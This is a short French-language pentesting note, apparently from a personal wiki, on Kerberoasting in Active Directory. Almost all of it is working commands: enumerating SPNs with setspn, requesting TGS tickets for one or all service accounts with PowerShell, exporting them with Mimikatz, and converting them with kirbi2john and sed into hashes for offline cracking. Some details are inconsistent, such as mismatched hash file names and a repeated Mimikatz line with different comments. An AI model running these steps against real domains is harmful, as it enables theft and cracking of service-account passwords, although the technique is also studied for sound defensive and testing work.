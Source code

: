 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Récupérer un TGS

### Liste des comptes avec leurs SPNs
```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

### Demande d'un TGS

```powershell
# Demander un TGS pour le SPN désiré (compte utilisateur)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MyUSERWithSPN/srvtest.domain.local"
```

### Demander tous les TGS existants

Attention, cela ne sera pas du tout furtif !

```powershell
# Demander tous les TGS possibles
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extraire le ou les Tickets (TGS)

Une fois les TGS générés par le KDC et stockés dans le système d'exploitation, on peut les récupérer via `Mimikatz`. 

```
mimikatz # base64 /out:true    <==== si on veut les transférer par copier / coller par exemple
mimikatz # base64 /out:true    <==== si on veut générer des fichiers .kirbi

mimikatz # kerberos::list /export  
```

```shell
# conversion depuis base64
echo "<base64 blob>" |  tr -d \\n | base64 -d > myUser.kirbi
# Extraction du hash pour l'utiliser avec john / hashcat
kirbi2john.py myUser.kirbi > vmware.hash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' myuser.hash > myUser_tgs_hashcat
```


[[Cassage de mots de passes Kerberos]]
